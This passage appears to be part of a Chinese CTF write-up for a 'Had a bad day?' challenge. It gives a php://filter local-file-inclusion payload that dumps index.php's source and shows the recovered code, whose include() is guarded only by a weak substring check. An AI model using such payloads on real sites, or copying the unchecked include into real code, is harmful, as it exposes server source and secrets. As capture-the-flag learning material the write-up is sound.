 
直接文件包含：`?category=php://filter/convert.base64-encode/resource=index.php`

根据报错，改为：`?category=php://filter/convert.base64-encode/resource=index`

```html
<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="description" content="Images that spark joy">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0">
    <title>Had a bad day?</title>
    <link rel="stylesheet" href="css/material.min.css">
    <link rel="stylesheet" href="css/style.css">
  </head>
  <body>
    <div class="page-layout mdl-layout mdl-layout--fixed-header mdl-js-layout mdl-color--grey-100">
      <header class="page-header mdl-layout__header mdl-layout__header--scroll mdl-color--grey-100 mdl-color-text--grey-800">
        <div class="mdl-layout__header-row">
          <span class="mdl-layout-title">Had a bad day?</span>
          <div class="mdl-layout-spacer"></div>
        <div>
      </header>
      <div class="page-ribbon"></div>
      <main class="page-main mdl-layout__content">
        <div class="page-container mdl-grid">
          <div class="mdl-cell mdl-cell--2-col mdl-cell--hide-tablet mdl-cell--hide-phone"></div>
          <div class="page-content mdl-color--white mdl-shadow--4dp content mdl-color-text--grey-800 mdl-cell mdl-cell--8-col">
            <div class="page-crumbs mdl-color-text--grey-500">
            </div>
            <h3>Cheer up!</h3>
              <p>
                Did you have a bad day? Did things not go your way today? Are you feeling down? Pick an option and let the adorable images cheer you up!
              </p>
              <div class="page-include">
              <?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
			</div>
          <form action="index.php" method="get" id="choice">
              <center><button onclick="document.getElementById('choice').submit();" name="category" value="woofers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Woofers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button>
              <button onclick="document.getElementById('choice').submit();" name="category" value="meowers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Meowers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button></center>
```